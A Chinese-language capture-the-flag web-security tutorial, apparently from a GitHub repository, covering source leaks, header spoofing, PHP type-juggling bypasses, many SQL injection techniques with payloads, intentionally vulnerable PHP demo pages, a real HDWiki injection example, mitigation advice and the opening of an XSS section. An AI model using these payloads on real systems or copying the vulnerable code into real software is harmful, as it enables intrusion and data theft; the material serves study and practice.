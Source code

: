 # Web In CTF

### 常见套路

- 爆破，包括md5、爆破随机数、验证码识别等

- 绕WAF，包括花式绕Mysql、绕文件读取关键词检测之类拦截

- 花式玩弄几个PHP特性，包括弱类型，strpos和===，反序列化 destruct、\0截断

- 各种找源码技巧，包括git、svn、xxx.php.swp、*www*.(zip|tar.gz|rar|7z)、xxx.php.bak、

- 文件上传，包括花式文件后缀 .php345 .inc .phtml .phpt .phps、各种文件内容检测<?php <? <% <script language=php>、花式解析漏洞

- Mysql类型差异，包括和PHP弱类型类似的特性,0x、0b、1e之类，varchar和integer相互转换

- open_basedir、disable_functions花式绕过技巧，包括dl、mail、imagick、bash漏洞、DirectoryIterator及各种二进制选手插足的方法

- 社工，包括花式查社工库、微博、QQ签名、whois

- windows特性，包括短文件名、IIS解析漏洞、NTFS文件系统通配符、::$DATA，冒号截断

- XSS，各种浏览器auditor绕过、富文本过滤黑白名单绕过、flash xss

- XXE，各种XML存在地方（rss/word/流媒体）、各种XXE利用方法（SSRF、文件读取）

- HTTP协议，花式IP伪造 X-Forwarded-For/X-Client-IP/X-Real-IP/CDN-Src-IP、花式改UA，花式藏FLAG、花式分析数据包


### 1. 信息泄露

#### 1.1 查看源代码

在线上CTF赛事的Web题目中，网页源代码是一个很重要的思路来源，按F12或右键查看源代码即可。

#### 1.2 robots.txt

爬虫协议，有时可以通过它看见一些重要的目录。

User-agent: *

Disallow: /images/

Disallow: /f1ag.txt/

Disallow: /tips.php

#### 1.3 注释

一般在右键源代码中，有时注释隐藏着重要的信息或者tips，或者出题者写下的思路。

#### 1.4 备份文件源码泄漏

​	常见备份文件后缀：

- .rar
- .zip
- .7z
- .tar.gz
- .bak
- .swp
- .txt
- .html
-  linux中可能以" ~ " 结尾
-  ng源码泄露，git源码泄露，DS_Store文件泄漏，网站备份压缩文件，SVN导致文件泄露，WEB-INF/web.xml泄露，CVS泄漏等，可参考以下资料：
- <https://www.cnblogs.com/xishaonian/p/7628153.html>
- <http://www.s2.sshz.org/post/source-code-leak/>
- <https://zhuanlan.zhihu.com/p/21296806>

#### 1.5 include漏洞

遇到php代码中有include($file)的，一般和 php://input或者php://filter有关，$file值如果是php://input，就要用post表单构造数据，如果是php://filter，就用下面的payload读取文件base64加密后的源代码，解密后查看源代码。

```php
php://filter/read=convert.base64-encoding/resource=文件名(如index.php)
```



### 2. 抓包/HTTP

#### 2.1 GET&POST

Get和Post操作是传参的基本操作，也是CTF中很常见的常规操作。

GET：在url中提交参数，如/index.php?a=1

POST：可通过hackbar或抓包插入post数据提交

最直接的区别：

GET请求的参数是放在URL里的，POST请求参数是放在请求body里的。

#### 2.2 HTTP头部绕过姿势

- 如果提示需要本地ip或指定ip才能访问，则可在报文头部添加以下几种常用信息段：

  ```http
  X-Forwarded-For: 127.0.0.1
  X-Client-IP: 127.0.0.1
  Client-IP: 127.0.0.1
  (ip地址可以根据需要修改)
  ```

- 如果需要验证网页来源，如一定要从谷歌跳转过来的页面才允许访问，则可在报文头部添加：

  ```http
  Referer: https://www.google.com
  ```

- 如果网页需要验证cookie，我们可以在http头部加入：

  ```http
  Cookie: u = stupid;
  ```

- 除了以上几种常见的情况，还需根据具体情况来使用不同的操作



### 3. 源码审计

#### 3.1 php弱类型

##### "=="与"==="

```php
<?php
	$a == $b ;
	$a === $b ;
?>
    
//=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
// == 在进行比较的时候，会先将字符串类型转化成相同，再比较
```

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

```php
<?php
var_dump("admin" == 0); //true
var_dump("1admin"== 1); //true
var_dump("admin1"== 1); //false
var_dump("admin1"== 0); //true
var_dump("0e123456"=="0e4456789"); //true 
?>  //上述代码可自行测试
    
 // 观察上述代码
 //"admin"==0 比较的时候，会将admin转化成数值，强制转化,由于admin是字符串，转化的结果是0自然和0相等
 //"1admin"==1 比较的时候会将1admin转化成数值,结果为1，而“admin1“==1 却等于错误，即是"admin1"被转化成了0,为什么呢？？
 //"0e123456"=="0e456789"相互比较的时候，会将0e这类字符串识别为科学技术法的数字，0的无论多少次方都是零，所以相等
```

php手册：

```c
/*
当一个字符串当作一个数值来取值，其结果和类型如下:如果该字符串没有包含'.','e','E'并且其数值值在整形的范围之内
该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。
*/
```

```php
<?php
$test=1 + "10.5"; // $test=11.5(float)
$test=1+"-1.3e3"; //$test=-1299(float)
$test=1+"bob-1.3e3";//$test=1(int)
$test=1+"2admin";//$test=3(int)
$test=1+"admin2";//$test=1(int)
?>
    
So that's why " "admin1"==1 =>False "
```

![](C:\Users\mcwin\Desktop\Web In CTF\images\php==.png)

##### md5绕过(Hash比较缺陷)

```php
<?php
if (isset($_GET['Username']) && isset($_GET['password'])) {
    $logined = true;
    $Username = $_GET['Username'];
    $password = $_GET['password'];

     if (!ctype_alpha($Username)) {$logined = false;}
     if (!is_numeric($password) ) {$logined = false;}
     if (md5($Username) != md5($password)) {$logined = false;}
     if ($logined){
    echo "successful";
      }else{
           echo "login failed!";
        }
    }
?>
```

大意是要输入一个字符串和数字类型，并且他们的md5值相等，就可以成功执行下一步语句 

介绍一批md5开头是0e的字符串

**0e在比较的时候会将其视作为科学计数法**，所以无论0e后面是什么，0的多少次方还是0。

键入**md5('240610708') == md5('QNKCDZO')**成功绕过！

收集md5开头是0e的字符串（来源于网络）：

```php
QNKCDZO
0e830400451993494058024219903391

s878926199a
0e545993274517709034328855841020
  
s155964671a
0e342768416822451524974117254469
  
s214587387a
0e848240448830537924465865611904
  
s214587387a
0e848240448830537924465865611904
  
s878926199a
0e545993274517709034328855841020
  
s1091221200a
0e940624217856561557816327384675
  
s1885207154a
0e509367213418206700842008763514
```

##### json绕过

```php
<?php
if (isset($_POST['message'])) {
    $message = json_decode($_POST['message']);
    $key ="*********";
    if ($message->key == $key) {
        echo "flag";
    } 
    else {
        echo "fail";
    }
 }
 else{
     echo "~~~~";
 }
?>
```

输入一个json类型的字符串，json_decode函数解成一个数组，判断数组中key的值是否等于 $key的值，但是$key的值我们不知道，**但是可以利用0=="admin"这种形式绕过**.

**最终payload **

````json
message={"key":0}
````

##### array_search is_array绕过

```php
<?php
if(!is_array($_GET['test'])){exit();}
$test=$_GET['test'];
for($i=0;$i<count($test);$i++){
    if($test[$i]==="admin"){
        echo "error";
        exit();
    }
    $test[$i]=intval($test[$i]);
}
if(array_search("admin",$test)===0){
    echo "flag";
}
else{
    echo "false";
}
?>
```

先判断传入的是不是数组，然后循环遍历数组中的每个值，并且数组中的每个值不能和admin相等，并且将每个值转化为int类型，再判断传入的数组是否有admin，有则返回flag。

```php
payload: test[]=0//可以绕过
```

官方手册对array_search的介绍

```php
mixed array_search ( mixed $needle , array $haystack [], bool $strict = false )
```

$needle，$haystack必需，$strict可选  函数判断$haystack中的值是存在$needle，存在则返回该值的键值 第三个参数默认为false，如果设置为true则会进行严格过滤。

```php
<?php
	$a=array(0,1);
	var_dump(array_search("admin",$a));  // int(0) ==> 返回键值0
	var_dump(array_search("1admin",$a)); // int(1) ==> 返回键值1
?>
```

array_search函数 类似于 == 也就是$a =="admin" 当然是$a=0  当然如果第三个参数为true则就不能绕过。

##### strcmp漏洞绕过 php -v <5.3

```php
<?php
    $password="***************"
     if(isset($_POST['password'])){

        if (strcmp($_POST['password'], $password) == 0) {
            echo "Right!!!login success";n
            exit();
        } else {
            echo "Wrong password..";
        }
 ?>
```

- strcmp是比较两个字符串，如果str1<str2 则返回<0 如果str1大于str2返回>0 如果两者相等 返回0
- 我们是不知道$password的值的，题目要求strcmp判断的接受的值和$password必需相等，strcmp传入的期望类型是字符串类型，如果传入的是个数组会怎么样呢
- 我们传入 password[]=xxx 可以绕过 是因为函数接受到了不符合的类型，将发生错误，但是还是判断其相等
- payload: password[]=xxx

##### switch绕过

```php
<?php
$a="4admin";
switch ($a) {
    case 1:
        echo "fail1";
        break;
    case 2:
        echo "fail2";
        break;
    case 3:
        echo "fail3";
        break;
    case 4:
        echo "sucess";  //结果输出success;
        break;
    default:
        echo "failall";
        break;
}
?>
```

原理和上面一样

##### is_numeric（）、int()强制类型转换

```php
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

知识点：

```
int()，不能正确转换的类型有十六进制型字符串、科学计数法型字符串
is_numeric()支持普通数字型字符串、科学记数法型字符串、部分支持十六进制0x型字符串
```

先判断是不是数字，然后再进行int长短的限定判断，也就是只能限定在5184000L<  time <  7776000

通过is_number() 能传入科学计数法，来进行绕过。

所以根据int不能处理科学计数法，而在is_number上能处理来解决。



### 4. SQL注入

#### 分类

##### 按照参数类型分类

按照参数类型可以分为两类:数值型、字符型

简单来说，就是：

```sql
数字型注入
加单引号 错误出异常
and 1 = 1 正常
and 1 = 2 异常

字符型注入
加单引号 错误出异常
and '1' = '1 正常
and '1' = '2 异常
```

###### 数值型

程序拼接的变量值没有被引号包裹。数值型注入是无视php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义函数的影响的。如果程序没有对关键字或者特殊符号过滤或者过滤不严(比如没有过滤union、select等关键字,可以使用联合注入,过滤了union、select等关键字,可以用盲注或者报错注入等方法)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```



sqlinjection.php(test on mysql 5.5.38)

```php
<?php
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['id'])&&$_GET['id']){
    $id = $_GET['id'];
    $sql = "select * from news where id=$id";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error());
}
else{
    $sql = "SELECT * FROM news";
    echo $sql;
    $result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
}
?>
<!DOCTYPE html>
<html>
<head>
<title>新闻</title>
</head>
<body>
<?php
if (isset($result)){
    while($row = mysql_fetch_row($result, MYSQL_ASSOC)){
        echo "{$row['tid']}    {$row['title']}    {$row['content']}</br>";
    }
}
?>
</body>
</html>
```

如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://127.0.0.1/sqlinjection.php?id=1 union select 1,2,user() --
```

没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=1 or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and sleep(3) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://127.0.0.1/sqlinjection.php?id=3 and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)。

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

###### 字符型

程序拼接的变量被引号包裹。字符型注入是是受php的gpc或者addslashes、mysql_real_escape_string,mysql_escape_string或者其他对引号有转义的函数影响的。如果程序没有对引号和关键字或者特殊符号过滤或者过滤不严,可能会导致sql注入。

eg:

```php
$p = $_GET['p']; p = 100' and '1'='1
$sql = "select * from news where p = '3' and '1'='2'";
```

闭合单引号,如果使用联合注入测试有回显并且是第三个字段在页面有回显,那么可以使用联合注入(这里假设test表是三个字段):

```mysql
http://xxx/qqq.php?p=1' union select 1,2,user() --
```

闭合单引号,没有回显可以尝试下看能不能报错注入,比如:

```mysql
http://xxx/qqq.php?p=1' or updatexml(2,concat(0x7e,(version())),0) --
```

也可以试下时间盲注,比如:

```mysql
http://xxx/qqq.php?p=1' and sleep(5) --
```

也可以试下bool盲注(看能不能引起页面变化):

```mysql
http://xxx/qqq.php?p=1' and (length(database()))>10 --
```

__注__: 上面的测试是在对应的注入方式中关键字或者特殊符号没有被过滤的情况下,真实环境中也不知道到底过滤了什么或者是其他原因。在不能看到源码的而情况下,也只能fuzz(随机测试)

__注__: 上面这些只是提供大致的思路。联合注入,报错注入,盲注以及其他注入方式有很多,还可以结合编码等或者其他大佬总结的什么方式绕过,需要用到的时候可以搜集资料详细的学习。

##### 按数据库返回的结果分类

据数据库返回的结果,分为回显注入、报错注入、盲注。

###### 回显注入

可以直接在存在注入点的当前页面中获取返回结果,可以使用回显注入。

常见利用:

- union select

###### 报错注入

程序将数据库的返回错误信息直接显示在页面中。虽然没有返回数据库的查询结果,但是可以构造一些报错语句从错误信息中获取想要的结果。

常见利用:

- floor
- updatexml
- extractvalue

###### 盲注

程序后端屏蔽了数据库的错误信息，没有直接显示结果也没有报错信息，只能通过数据库的逻辑和延时函数来判断注入的结果。

- bool盲注(based boolean)
  - 如果测试时发现页面有变化,可以尝试使用bool盲注
- 时间盲注(based time)
  - 如果测试时页面无变化,但是通过sleep发现页面存在延迟,可以尝试使用时间盲注

利用:

- Length()、Substr()、Ascii()、sleep()、if(expr1,expr2,expr3)等结合使用

##### 其他特殊注入

###### 宽字节注入

形成条件:

- 开启了gpc或使用addslashes、mysql_real_escape_string,mysql_escape_string等对引号转义的函数
- 使用了`SET NAMES 多字节编码`或者`set character_set_client=多字节编码`指令,这里多字节编码低位的范围需要覆盖0x5C才能导致注入。我们最常见的是gbk编码。

假如代码中设置的是GBK编码(mysql那端表或者字段设置的编码无影响,会自动转换),这时只要引入宽字节高位编码吃掉`\`(%5c),就导致了宽字节注入的发生。

可以参考[https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/](https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过）/)

eg:

```mysql
CREATE DATABASE IF NOT EXISTS `test`;
CREATE TABLE IF NOT EXISTS `news` (
  `tid` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `title` varchar(30) CHARACTER SET utf8 NOT NULL,
  `content` varchar(256) CHARACTER SET utf8 NOT NULL,
  PRIMARY KEY (`tid`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=3 ;

INSERT INTO `news` (`tid`, `title`, `content`) VALUES
(1, '新闻1', '这是第一篇文章'),
(2, '新闻2', '这是第二篇文章');
```

sqlgbkinjection.php(test on mysql 5.5.38)

```php
<?php
//连接数据库部分，注意使用了gbk编码，把数据库信息填写进去
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_query("SET NAMES 'gbk'");
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
//执行sql语句
$id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
$sql = "SELECT * FROM news WHERE tid='{$id}'";
$result = mysql_query($sql, $conn) or die(mysql_error()); //sql出错会报错，方便观察
?>
<!DOCTYPE html>
<html>
<head>
<meta charset="gbk" />
<title>新闻</title>
</head>
<body>
<?php
$row = mysql_fetch_array($result, MYSQL_ASSOC);
echo "<h2>{$row['title']}</h2><p>{$row['content']}<p>\n";
mysql_free_result($result);
?>
</body>
</html>
```

测试:
`http://127.0.0.1/sqlgbkinjection.php?id=10%df%27%20union%20select%201,user(),database()%23`

###### 二次注入

首先将构造好的利用代码写入网站保存,再第二次或多次请求后调用攻击代码触发或者修改配置触发的漏洞。



比如sql二次注入:

在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。

在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。

eg:
数据表使用的是上面news表

secondaryinjection.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0);
session_start();
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
mysql_select_db('test', $conn) OR emMsg("连接数据库失败，未找到您填写的数据库");
if (isset($_GET['title'])&&isset($_GET['tid'])&&isset($_GET['content'])){
    $tid = intval($_GET['tid']);
    $title = $_GET['title'];
    $content = $_GET['content'];
    if (!get_magic_quotes_gpc()){
        $title = addslashes($title);
        $content = addslashes($_GET['content']);
    }
    $sql = "INSERT INTO news(tid,title,content) VALUES ($tid,'$title','$content')";
    mysql_query($sql, $conn) or die(mysql_error());

    $sql = "select * from news where tid=$tid";
    echo $sql;
    $results = mysql_query($sql,$conn);
    $row = mysql_fetch_array($results);
    $_SESSION['tid'] = $row['tid'];
    $_SESSION['title'] = $row['title'];
    echo $_SESSION['title'];
}
elseif (isset($_SESSION['title'])){
    $title = $_SESSION['title'];
    $sql = "select * from news where title='$title'";
    echo $sql.'<br>';
    $results = mysql_query($sql, $conn) or die(mysql_error());
    while ($row = mysql_fetch_array($results))
    {
        echo $row['title'].'    '.$row['content'];
        echo '<br>';
    }
}
else{
    echo 'Try create a new';
}
?>
```

`http://127.0.0.1/secondaryinjection.php?tid=6&title=aaa%27 union select 1,user(),3%23&content=qqqqq`

`http://127.0.0.1/secondaryinjection.php`

#### 检测判断sql注入：

```sql
id=1' and 1=0 //报错
id=1' and 1=1 //正确
```

#### 判断什么类型注入：

```sql
id=1'
id=1"
```

可加 “\” 等符号，构造报错，从报错回显中观察是什么类型的错误，如：

```sql
SELECT * from table_name WHERE id='our input'

SELECT * from table_name WHERE id=our input

SELECT * from table_name WHERE id=('out input')

SELECT * from table_name WHERE id=("our input")
```

![](C:\Users\mcwin\Desktop\Web In CTF\images\sql.png)

原理如上

#### 数据库查询版本

- Mssql: select @@version
- Mysql: select version（）/select @@version
- oracle: select banner from ￥version
- Postgresql: select version（）

#### 判断过滤了哪些字符？

采用异或注入。
在id=1后面输入 '(0)'
发现不出错，那就将0换成1=1
如果出错，那就是成功了

如果括号里面的判断是假的，那么页面就会显示正确
那么同理，
如果修改里面的内容为length(‘union’)!=0
如果页面显示正确，那就证明length(‘union’)==0的，也就是union被过滤了

#### 判断字段长度

- order by 数字 可以判断字段的个数
- 也可以用猜字段 union select 1，2，3

```sql
id=1' order by 1
id=1' order by 2
...
id=1' order by n
```

如果n出现了错误那么共有n-1列，union查询必须列数量对齐，也就是说union select 1,2,...,n-1 from ...

#### 判断字段回显位置

在链接后面添加语句`union select 1,2,3,4,5,6,7,8,9,10,11#`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。

#### 判断数据库注入

利用内置函数暴数据库信息
version()版本；database()数据库；user()用户；
不用猜解可用字段暴数据库信息(有些网站不适用):

```sql
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user
数据库权限：and ord(mid(user(),1,1))=114 返回正常说明为root
```

#### 绕过登陆验证

- admin’ –
- admin’ #
- admin’/*
- ’ or 1=1–
- ’ or 1=1#
- ’ or 1=1/*
- ') or ‘1’='1–
- ') or (‘1’='1–

#### SQL注入常见函数

- group_concat函数 可以把查询的内容组合成一个字符串
- load_file(file name ) 读取文件并将文件按字符串返回
- left（string，length）返回最左边指定的字符数：
- left（database（），1）>‘s’ (猜名字)
- length（）判断长度
- length（database（）>5
- substr（a，b，c）从字符串a中截取 b到c长度
- ascii（）将某个字符转为ascii值
- ascii（substr（user（），1，1））=101#
- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

#### 联合爆库：

这里假设有3列：

为了让联合注入工作，首先要知道数据库中的表名，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() --+ //--+是把语句闭合后注释掉后面的语句
```

有时程序可能不会打印出所有的行，这时我们就得使用关键字limit一条条进行查询，键入：

```sql
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1 --+
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1 --+
```

或者可以用group_concat():

```sql
id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

假设有'users'表

现在看其中的一个表，为了提取其信息，键入：

```sql
id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

注意，我们使用'column'替换了'table'，因为我们想要的是一个表的列信息
假设有'username'，'password'，'flag'列，我们可以键入：

```sql
id=-1' union select 1,group_concat(username),3 from users --+
id=-1' union select 1,group_concat(username),group_concat(password) from users --+
id=-1' union select 1,flag,3 from users --+
```

即可按需查询所需要的信息。



#### 报错注入：

```sql
- floor （SELECT user()可修改）

- OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)–+
  
- ExtractValue(有长度限制,最长32位) （select @@version可修改）
  
  and extractvalue(1, concat(0x7e, (select @@version),0x7e))–+

- UpdateXml(有长度限制,最长32位) （SELECT @@version可修改）

  and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)–+

- NAME_CONST(适用于低版本，不太好用)

- and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)–+

- Error based Double Query Injection

- or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1–+

- exp(5.5.5以上) （select user()可修改）

- and (select exp(~(select * from(select user())x)))–+

- floor(Mysql): and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x 
from information_schema.tables group by x)a);

- Extractvalue(Mysql): and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql): and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select 
user())a)b));

- linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));
```



#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  ```sql
  //正常情况
   'or bool#
   true'and bool#
       
   //不使用空格、注释
   'or(bool)='1
   true'and(bool)='1
       
   //不使用or、and、注释
   '^!(bool)='1
   '=(bool)='
   '||(bool)='1
   true'%26%26(bool)='1
   '=if((bool),1,0)='0
       
   //不使用等号、空格、注释
   'or(bool)<>'0
   'or((bool)in(1))or'0
       
   //其他
   or (case when (bool) then 1 else 0 end)
  ```

- 有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

  ```sql
   1' or (bool) or '1'='1
   1%' and (bool) or 1=1 and '1'='1
  ```

- ##### 构造逻辑判断

  - 逻辑判断基本就那些函数：

    ```
      left(user(),1)>'r'  
      right(user(),1)>'r'  
      substr(user(),1,1)='r'  
      mid(user(),1,1)='r' 
          
      //不使用逗号 
      user() regexp '^[a-z]'
      user() like 'root%'
      POSITION('root' in user())
      mid(user() from 1 for 1)='r'
      mid(user() from 1)='r'
    ```

- ##### 利用order by盲注

  ```sql
  mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
  +----+--------------+------------------------
  | id |    username  | password                   
  +----+--------------+------------------------
  |  1 | 2            | 5                         
  |  1 | admin        | 51b7a76d51e70b419f60d34 
  +----+----------- --+------------------------
  2 rows in set (0.00 sec)
      
  mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
  +-----+-----------+--------------------------
  |id   | username  | password                  
  +-----+-----------+--------------------------
  |  1  | admin     |51b7a76d51e70b419f60d3
  |  1  |    2      | 6                          
  +-----+-----------+--------------------------
  2 rows in set (0.01 sec)
  ```

#### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。
- 一般格式if((bool),sleep(3),0)和or (case when (bool) then sleep(3) else 0 end)
- 两个函数：
- BENCHMARK(100000,MD5(1))
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源，推荐使用sleep()。

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%df%27 union select 1.2–+

### 实例

以HDWiki v6.0 UTF8-20170209 前台sql注入为例，index.php?doc-create创建词条可以通过`aaaa……aa'` 81个字符，经过转义变成`aaaa……aa\'`82个字符，经过截断变成`aaaa……aa\`81个字符，将sql语句中的单引号转义，并且后面一个参数用户可控，产生了SQL注入

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'`

`，concat(user(),0x7c,database(),0x7c,version()),1,1,#`

### 漏洞防范

#### gpc/rutime魔术引号

- magic_quotes_gpc负责对GET、POST、COOKIE的值进行过滤
- magic_quotes_runtime对从数据库或者文件中获取的数据进行过滤。上面的二次注入可以使用这个函数对特殊符号转义

开启这两个选项也只能防御部分SQL注入。因为他们只对`'`、`"`、`\`、`空字符`进行转义,在int型注入上没有太大作用。

#### 过滤函数和类

##### addslashes函数

addslashes也是对`'`、`"`、`\`、`空字符`进行转义，大多数程序使用它实在程序入口，判断如果没有没有开启gpc,则使用它对参数进行过滤,不过他的参数必须是string,所以如果参数是数组类型,那么必须使用此函数对数组递归过滤。

##### mysql\_[real]\_escape\_string

mysql_escape_string和mysql_real_escape_string函数都是对字符串进行过滤,在php4.0.3以上版本才有这两个函数,`\x00`、`\n`、`\r`、`\`、`'`、`"`、`\x1a`。不同在于mysql_real_escape_string接受的是一个连接句柄并根据当前字符集转义字符串,所以最好使用mysql_real_escape_string。

mysql_escape_string

```php
$item = "Zak's Laptop";
$escaped_item = mysql_escape_string($item);
```

mysql_real_escape_string

```php
$conn = mysql_connect('localhost', 'root', 'root') or die('bad!');
$item = "Zak's Laptop";
$escaped_item = mysql_real_escape_string($item,$conn);
```

##### intval

将字符转换成数值

eg:

```php
$id = '1 union select';
$id = intval($id);
echo $id;
```

#### PDO预编译方式

使用PDO方式基本可以防止sql注入,原因是因为有两次传输，前一次传一个sql模板，第二次传查询参数，会把第二步传入的参数只做查询参数处理，不做语义解释，这样注入的条件就算执行了，也不会得到查询结果。但是还是存在特殊情况会在使用了PDO方式也会存在注入,可以参考[https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218](https://stackoverflow.com/questions/134099/are-pdo-prepared-statements-sufficient-to-prevent-sql-injection/12202218#12202218)

eg:

```php
try {
$pdo = new PDO('mysql:host=localhost;dbname=test', 'root', 'root');
} catch (PDOException $e) {
echo $e->getMessage();
}
$sta = $pdo->prepare('select * from table where name = ?'); //准备 SQL 模版，其中 ? 代表一个参数。
$sta->execute(array('name1')); //通过数组设置参数，执行 SQL 模版
```

## 5.XSS漏洞(跨站脚本攻击)

### 成因与危害

参数没有被过滤或严格过滤,且参数传入到了输出函数,被输出到了页面。常出现在文章发表、评论回复、留言、资料修改等地方。

可能产生如下危害:

- 窃取cookie
- 修改页面进行钓鱼
- 前端能做的事情,xss都能做到

### 分类

反射型、存储型、dom型

#### 反射型

经过了后端,但是没有经过经过数据库。

数据流向: 浏览器 -> 后端 -> 浏览器

eg:

reflectxss.php(test on mysql 5.5.38)

```php
XSS反射演示
<form action="" method="get">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
session_start();
$xss = @$_GET['xss'];
if($xss!==null){
    echo $xss;
}
?>
```

`http://127.0.0.1/reflectxss.php?xss=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用(以获取用户cookie为例):
比如`http://xxx.com/xxx.php?aaa=攻击者编写的获取用户cookie的代码`存在反射型xss,
攻击者可以把构造好的链接发到论坛或者其他方式诱导用户点击,如果用户点击了链接,那么用户的cookie会被攻击者的服务器收到,攻击者可以利用用户的cookie登陆目标网站

#### 存储型

数据经过了后端,经过了数据库。

数据流向: 浏览器-> 后端-> 数据库-> 后端-> 浏览器

eg:

```mysql
create table xss (
    id int(10) unsigned NOT NULL AUTO_INCREMENT,
    payload varchar(100) NOT NULL,
    PRIMARY KEY (id)
)ENGINE=MyISAM DEFAULT CHARSET=utf8;
```

